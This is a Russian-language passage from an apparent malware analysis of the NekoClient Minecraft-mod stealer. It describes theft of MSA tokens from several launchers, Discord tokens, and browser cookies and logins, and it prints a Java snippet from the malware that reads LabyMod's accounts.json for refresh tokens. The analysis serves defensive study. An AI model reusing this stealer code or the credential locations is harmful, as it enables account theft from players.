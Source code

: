 ### Кража данных

**MSA Токены**: Поскольку этот мод нацелен на моды Minecraft, вполне естественно будет попытаться украсть токен MSA, используемый для входа в Minecraft. Некоторые лаунчеры хранят эти данные в локальном файле, из которого эта вредоносная программа попытается их прочитать. Это затрагивает различные лаунчеры, такие как:

* Лаунчер ваниллы/Mojang
* Старый лаунчер ваниллы/Mojang
* PolyMC / Prism
* Technic
* Feather
* LabyMod (< v3.9.59)
* И любой токен MSA, найденный в [Диспетчере учетных данных Windows](https://support.microsoft.com/en-us/windows/accessing-credential-manager-1b5c916a-6a16-889f-8581-fc16e8165ac0)

Логика поиска (см. [`dev/neko/nekoclient/api/stealer/msa/impl/MSAStealer.java`](https://github.com/clrxbl/NekoClient/blob/main/dev/neko/nekoclient/api/stealer/msa/impl/MSAStealer.java)) выглядит одинаково для ряда целей, поскольку хранят они эти данные аналогичным образом. Например, вот код laby-mod:
```java
private static void retrieveRefreshTokensFromLabyMod(List<RefreshToken> refreshTokens) throws IOException {
	String appdata = System.getenv("APPDATA");
	if (Platform.isWindows() || Objects.isNull(appdata)) {
		Path path = appdata == null ? null : Paths.get(appdata, ".minecraft", "LabyMod", "accounts.json");
		if (Files.isReadable(path)) {
			extractRefreshTokensFromLabyModLauncher(refreshTokens, Json.parse(Files.readString(path)).asObject());
		}
	}
}
```
Код для получения токенов из Feather/PolyMC/Prism практически одинаков.

Отличие этого подхода в сравнении с ванильным лаунчером в том, что у этого Json'а есть дополнительный уровень криптографии, защищающий его.

Изменение от этой стратегии для Technic заключается в том, что Technic хранит учетные данные, используя встроенную в Java сериализацию объектов, обертывая тип `com.google.api.client.auth.oauth2.StoredCredential`.

**Discord токены**: Все видели похитителей токенов раньше. Похищает токен и дополнительную информацию, такую ​​как способы оплаты, привязанный номер телефона и т. д. Затрагивает на стандартный клиент, клиенты canary, ptb и lightcord. Соответствующий код: [`dev/neko/nekoclient/api/stealer/discord/DiscordAccount.java`](https://github.com/clrxbl/NekoClient/blob/fd76c5f9d40d1e10de11f00a6b4e0cca3d6221a3/dev/neko/nekoclient/api/stealer/discord/DiscordAccount.java)

**Файлы cookie и сохраненные учетные данные**: Похищает сохраненные файлы cookie и данные для входа, сохраненные в уязвимых браузерах. Соответствующий код: [`dev/neko/nekoclient/api/stealer/browser/impl/BrowserDataStealer.java`](https://github.com/clrxbl/NekoClient/blob/main/dev/neko/nekoclient/api/stealer/browser/impl/BrowserDataStealer.java)
